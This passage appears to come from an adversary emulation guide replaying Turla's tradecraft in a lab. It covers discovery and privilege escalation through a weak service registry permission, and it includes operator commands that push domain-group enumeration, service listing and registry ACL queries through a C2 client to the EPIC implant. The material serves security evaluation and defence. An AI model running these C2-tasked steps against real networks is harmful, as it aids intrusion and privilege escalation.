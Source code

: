 <br>

## Step 3 - Discovery and Privilege Escalation

:microphone: `Voice Track:`

Step 3 emulates Turla performing additional discovery using EPIC and privilege
escalation by abusing weak registry permissions.

Once C2 communications have been established between EPIC and the C2 via the
proxy server, initial network enumeration is performed on the first host
where information about the host device, local and domain groups, and network
configurations is collected.

At this point, the domain controller `bannik (10.20.10.9)` and several domain
administrator accounts, including `frieda`, are discovered. A custom service is
also discovered.

Next, additional enumeration of the registry is performed and a weak registry
permission for the service `ViperVPN` is discovered and the binary path is
modified to perform privilege escalation.

Eventually the service is restarted manually by a domain admin from the domain
controller to emulate the service being restarted via machine reboot. When the service restarts,
EPIC will be executed with SYSTEM level privileges.

Note that since this domain admin login is part of a whitecarded service restart,
we will not be using this logon session for subsequent activity.

### ☣️ Procedures

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:

```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```

* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
>
* >```text
    >viperVpn.exe                  <PID> ViperVPNSvc
    >```

* Wait 1 minute before tasking the next command to query the service and who can access it:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```
